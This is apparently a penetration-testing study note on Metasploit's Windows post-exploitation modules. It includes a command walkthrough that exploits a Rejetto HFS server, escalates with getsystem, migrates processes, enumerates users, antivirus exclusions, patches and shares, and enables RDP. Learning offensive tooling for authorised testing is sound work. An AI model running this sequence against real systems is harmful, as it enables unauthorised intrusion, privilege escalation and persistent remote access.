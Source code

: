 ```yaml
---
up: "[[Windows Post Exploitation]]"
---
```


# Windows Post Exploitation Modules

- MSF has various post exploitation modules for Windows and Linux
- They can be used to enumerate:
	- user privileges
	- logged on users
	- VM check
	- installed programs
	- AVs
	- computers connected to domain
	- installed patches
	- shares

## Demonstration

```bash
> db_nmap -sV <ip>
> use exploit/windows/http/rejetto_hfs_exec
> run
m> sysinfo
m> getuid
m> help
# local enumeration
m> getsystem
m> show_mount
m> ps
m> migrate <id>
m> sysinfo
m> ^Z
> use post/windows/manage/migrate
> set SESSION <id>
> use post/windows/gather/win_privs
> set SESSION <id>
> run
# check what users are logged
> use post/windows/gather/enum_logged_on_users
> set SESSION <id>
# check if is VM
> use post/windows/gather/checkvm
> set SESSION <id>
> use post/windows/gather/enum_applications
> set SESSION <id>
> use post/windows/gather/enum_av_excluded
> set SESSION <id>
> use post/windows/gather/enum_computers
> set SESSION <id>
> use post/windows/gather/enum_patches
> set SESSION <id>
> use post/windows/gather/enum_shares
> set SESSION <id>
> use post/windows/manage/enable_rdp
> set SESSION <id>
```
